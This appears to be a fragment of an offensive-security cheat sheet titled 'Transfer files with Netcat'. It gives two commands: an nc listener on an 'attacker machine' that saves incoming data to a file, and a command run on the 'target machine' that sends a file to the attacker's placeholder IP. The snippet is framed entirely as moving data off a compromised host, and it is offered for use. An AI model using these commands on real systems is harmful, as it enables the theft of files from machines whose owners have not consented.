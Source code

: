 ### Transfer files with Netcat

#### 1) Attacker Machine: 

    nc -lvnp PORT > FILE

#### 2) Target Machine 

    nc OUR_IP < FILE
